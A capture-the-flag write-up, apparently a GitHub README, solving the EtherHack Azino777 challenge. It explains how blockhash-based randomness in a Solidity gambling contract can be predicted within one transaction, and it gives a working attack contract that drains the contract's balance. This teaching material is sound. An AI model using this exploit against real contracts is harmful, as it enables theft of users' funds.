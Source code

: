 # EtherHack CTF Solutions
<center>
    <img src="https://etherhack.positive.com/imgs/etherhack.jpg" width="50%"/>
</center>
<br />

[EtherHack CTF](https://etherhack.positive.com/#/) solutions ⛳️

> NOTE: All challenges' smart contracts code are upgraded to v0.8.20. This does not affect at all the challenges behavior

### Useful commands for all challenges
```shell
forge compile: Compile smart contracts
forge test: Run tests for challenges solution
forge test -vvv: Run tests for challenges with tracers enabled (recommended for all challenges, to output the logs of the states before and after the exploit)
```
## Challenges

1. [Azino 777](#01---azino777)
   
## 01 - Azino777

To solve this challenge, we need to guess the correct input `bet` that should match a *generated random* value in order to take all the contract's balance:
```solidity
function spin(uint256 bet) public payable {
    require(msg.value >= 0.01 ether);
    uint256 num = rand(100);
    if(num == bet) {
        msg.sender.transfer(this.balance);
    }
}
```
This challenge shows the hardness of generating a **secure random number in smart contracts**. Someone checking the `rand` function implementation may think it generates a random number **while it does not**
```solidity
//Generate random number between 0 & max
  uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
  function rand(uint max) constant private returns (uint256 result){
    uint256 factor = FACTOR * 100 / max;
    uint256 lastBlockNumber = block.number - 1;
    uint256 hashVal = uint256(block.blockhash(lastBlockNumber));

    return uint256((uint256(hashVal) / factor)) % max;
}
```
Statistically saying, we have a chance of 1% to guess the correct number on each try.<br/>
After inspecting the function logic, we notice that all the factors contributing to generating the *random* number are constants and pre-deterministic except for `hashVal` (which is the blockhash of the last block casted to uint256). So, if we get to know the value of the `hashVal` before the calculation starts, we could easily predict the *random number* by simply doing the same calculation in advance.<br />
For us to predict the true number, we can simply perform in **one transaction** the calculation of the *random number* using the same `rand` logic on our own and then, invoking the function `spin` passing the value we got by our calculation. And because both operations are in the same transaction, the `hashVal` will be the same for both calculations!! Hence, increasing the chances to get the correct number to **100%**!! <br />
Attack contract: 
```solidity
contract AzzinoHack {
    Azino777 public target;
    constructor(address payable _target) {
        target = Azino777(_target);
    }
    uint256 constant private FACTOR =  1157920892373161954235709850086879078532699846656405640394575840079131296399;
    function attack() payable external {
        // max is always passed as 100
        uint256 factor = FACTOR * 100 / 100;
        uint256 lastBlockNumber = block.number - 1;
        uint256 hashVal = uint256(blockhash(lastBlockNumber));

        uint bet =  uint256((uint256(hashVal) / factor)) % 100;
        target.spin{value: address(this).balance}(bet);
    }

    receive() external payable {}
}
```
[Attack contract](./src/Azino777.sol) | [Tests](./test/Azino777.t.sol)